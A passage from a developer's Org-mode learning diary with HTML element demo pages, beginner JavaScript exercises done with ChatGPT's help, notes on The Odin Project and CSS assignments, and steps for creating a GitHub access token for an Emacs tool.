  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
